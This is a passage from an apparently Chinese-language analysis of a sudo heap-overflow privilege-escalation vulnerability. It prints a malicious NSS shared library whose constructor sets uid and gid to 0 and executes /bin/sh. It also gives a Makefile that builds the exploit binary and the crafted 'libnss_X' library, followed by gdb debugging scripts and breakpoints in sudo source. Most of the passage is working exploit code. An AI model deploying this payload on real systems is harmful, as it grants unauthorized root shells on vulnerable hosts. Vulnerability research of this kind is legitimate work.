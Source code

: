 ```
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static void __attribute__ ((constructor)) _init(void);

static void _init(void) {
        printf("[+] bl1ng bl1ng! We got it!\n");
        setuid(0); seteuid(0); setgid(0); setegid(0);
        static char *a_argv[] = { "sh", NULL };
        static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
        execv("/bin/sh", a_argv);
}

```

7.3Makefile

```
all:
        rm -rf libnss_X
        mkdir libnss_X
        gcc -o sudo-hax-me-a-sandwich hax.c
        gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
        rm -rf libnss_X sudo-hax-me-a-sandwich

```

7.4 调试注意  
对此类调试熟悉的同学都知道，调试堆和运行堆存在差异，因此在调试本漏洞时需要使用调试堆，可以借助如下脚本

```
import subprocess, signal
import os
cmd = ['./gdb_test']
p = subprocess.Popen(cmd)
p.send_signal(signal.SIGSTOP)
pid = os.popen("pidof gdb_test").read()
if pid:
   input(f'[+] GDB Attach {pid}')

```

运行 gdb 时可以使用如下命令：  
gdb --pid `pidof  gdb_test` -x cmd_init.txt  
cmd_init.txt 文件中可以保存一些固定执行的命令，如加载 directory、breakpoint 等，本次调试使用命令如下：

```
set follow-fork-mode child
set detach-on-fork on
set breakpoint pending on
catch exec
c
c
c
directory /usr/src/glibc/glibc-2.31/
directory /usr/src/glibc/glibc-2.31/nss/
directory /usr/src/glibc/glibc-2.31/elf/
directory /usr/src/glibc/glibc-2.31/locale/
directory /home/kali/Desktop/myPoc/sudo/sudo-1.8.31p1/sudo-1.8.31p1
b sudo.c:154
b sudo.c:191
b sudoers.c:847
b sudoers.c:852
b sudoers.c:854    
```